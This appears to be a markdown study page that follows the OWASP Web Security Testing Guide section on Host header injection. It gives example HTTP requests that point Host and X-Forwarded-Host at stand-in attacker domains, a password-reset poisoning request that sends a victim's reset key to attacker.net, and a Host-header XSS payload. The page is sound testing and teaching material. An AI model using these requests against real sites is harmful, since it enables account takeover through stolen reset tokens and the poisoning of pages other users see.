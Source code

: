 ```yaml
---
title: Testing for Host Header Injection - OWASP Web Security Testing Guide 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - WSTG-INPV-17
---
```


# Testing for Host Header Injection

!!! quote ""
	[OWASP Web Security Testing Guide 4.2](index.md) > 7. Data Validation Testing > 7.17. Testing for Host Header Injection

|ID|Link to Hackinglife|Link to OWASP|Description|
|:---|:---|:---|:---|
|7.17|[WSTG-INPV-17](WSTG-INPV-17.md)|[Testing for Host Header Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/17-Testing_for_Host_Header_Injection)|- Assess if the Host header is being parsed dynamically in the application.  - Bypass security controls that rely on the header.|


The goal:

- Assess if the Host header is being parsed dynamically in the application.
- Bypass security controls that rely on the header.

Source: [https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html](https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html)

## Supply an arbitrary Host header

Some intercepting proxies derive the target IP address from the Host header directly, which makes this kind of testing all but impossible; any changes you made to the header would just cause the request to be sent to a completely different IP address. However, Burp Suite accurately maintains the separation between the Host header and the target IP address. 

In Burpsuite, set the target to www.example.com. Then, send your request with modified Host header:


```
GET / HTTP/1.1
Host: www.attacker.com
```

The front-end server or load balancer that received your request may simply not know where to forward it, resulting in an "Invalid Host header" error of some kind. This is especially likely if your target is accessed via a CDN.



## Inject host override headers

### X-Forwarded Host Header Bypass


```
GET / HTTP/1.1
Host: www.example.com
X-Forwarded-Host: www.attacker.com
```

Potentially producing client-side output such as:

```
<link src="http://www.attacker.com/link" />
```

### More headers bypassing

Although `X-Forwarded-Host` is the de facto standard for this behavior, you may come across other headers that serve a similar purpose, including:

- `X-Host`
- `X-Forwarded-Server`
- `X-HTTP-Host-Override`
- `Forwarded`

In Burp Suite, you can use thec's "Guess headers" function to automatically probe for supported headers using its extensive built-in wordlist.



## Injecting multiple Host headers

```
GET / HTTP/1.1
Host: www.example.com
Host: www.attacker.com
```

##  HTTP_HOST vs. SERVER_NAME Routing 

By supplying an absolute URL.

```
POST https://example.com/passwordreset HTTP/1.1
Host: www.evil.com
```

## Port-based attack 

Webservers allow a port to be specified in the Host header, but ignore it for the purpose of deciding which virtual host to pass the request to. This is simple to exploit using the ever-useful http://username:password@domain.com syntax:

```
POST /user/passwrordeset HTTP/1.1
Host: example.com:@attacker.net
```

This may result in a suspicious password reset link. By clicking it, the victim's browser will  send the key to attacker.net before creating the suspicious URL popup.

## Persistent XSS via Host header injection

```
GET /index.html HTTP/1.1
Host: cow\"onerror='alert(1)'rel='stylesheet'" http://example.com/ | fgrep cow\
```

The response should show a poisoned `<link>` element:

```
<link href="http://cow"onerror='alert(1)'rel='stylesheet'/" rel="canonical"/>
```


## Add line wrapping

The website may block requests with multiple Host headers, but you may be able to bypass this validation by indenting one of them like this. Some servers will interpret the indented header as a wrapped line and, therefore, treat it as part of the preceding header's value. Other servers will ignore the indented header altogether.

```
GET /example HTTP/1.1 
    Host: attacker.com 
Host: example.com
```


## Exploitation

[https://portswigger.net/web-security/host-header/exploiting](https://portswigger.net/web-security/host-header/exploiting)